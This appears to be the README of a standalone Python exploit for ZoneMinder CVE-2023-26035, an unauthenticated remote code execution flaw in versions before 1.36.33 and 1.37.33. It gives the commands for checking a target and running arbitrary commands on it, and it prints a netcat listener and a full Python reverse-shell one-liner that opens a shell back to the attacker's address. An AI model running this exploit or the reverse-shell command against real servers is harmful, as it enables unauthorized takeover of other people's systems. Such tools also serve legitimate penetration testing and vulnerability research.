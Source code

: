 # Exploit - ZoneMinder CVE-2023-26035

There is a **Unauthenticated Remote Code Execution (RCE)** affecting **ZoneMinder** Snapshots.  
This is an **exploit** for CVE-2023-26035.

## Affected versions

ZoneMinder **< 1.36.33** and  
ZoneMinder **< 1.37.33**.

![Usage of the exploit](./demo.png)

## Usage

#### Check if the target is vulnerable:

    python3 zoneminder.py http://target

#### Execute a command

    python3 zoneminder.py http://target command


## Examples

#### Test command execution with `ping`

Run `tcpdump` on the interface connected to the target (here `tun0`) and filter for `ICMP` packets:

    sudo tcpdump -i tun0 icmp

Then execute a ping to your IP. Make sure to use quotes `"` as otherwise the command won't be interpreted correctly.

    python3 zoneminder.py http://target "ping -C 4 your_ip"

#### Reverse shell

Create the listener with netcat:

    nc -lvnp 1337

Use a reverse shell oneliner:

    python3 zoneminder.py http://TARGET "python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"YOUR_IP\",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")'"

More at https://revshells.com.

## Requirements

The exploit make use of **`requests`** and **`BeautifulSoup`**.
Install it with :

    python3 -m pip install requests beautifulsoup4

## Acknowledgements

I just wanted a standalone exploit that didn't require Metasploit.  
The script is derived of https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/unix/webapp/zoneminder_snapshots.rb

https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-72rg-h4vf-29gr